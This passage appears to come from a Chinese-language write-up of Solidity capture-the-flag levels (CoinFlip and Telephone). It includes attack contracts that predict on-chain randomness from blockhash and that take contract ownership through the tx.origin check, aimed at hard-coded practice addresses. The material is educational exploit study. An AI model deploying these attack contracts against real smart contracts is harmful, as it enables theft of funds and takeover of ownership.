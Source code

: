          使用攻击合约计算出结果后传给目标合约

       ```solidity
         interface CoinFlip{
         function flip(bool _guess) external returns (bool);
         }
         
         contract attack{
         	uint256 public consecut;
         	uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
         	address target=0x7C94823b2D84fcA9A125f967326ccBb800A7d1ec;
         	function coinfilp() public returns (bool){
         		uint256 blockvalue=uint256(blockhash(block.number -1));
         
         		uint256 coinFilp=blockvalue/FACTOR;
         		bool side=coinFilp==1?true:false;
         		CoinFlip c=CoinFlip(target);
         		c.flip(side);
         	}
         
         }
         ```
         
         

5.   **Telephone**

     ```solidity
     pragma solidity ^0.8.0;
     
     contract Telephone {
     
       address public owner;
     
       constructor() {
         owner = msg.sender;
       }
     
       function changeOwner(address _owner) public {
       //tx.origin 交易发起人  msg.sender 函数调用者
         if (tx.origin != msg.sender) {
           owner = _owner;
         }
       }
     }
     
     ```

     很明显让外部合约调用`changeOwner`函数即可

     ```solidity
     interface Telephone{
       function changeOwner(address _owner) external;
     }
     
     contract attack{
           function exploit() public{
           address owner=0xaF3a113e418906110bED4AF4852627ce6eb6E500;
           Telephone t=Telephone(owner);
           t.changeOwner(msg.sender);
       }
     }
     ```
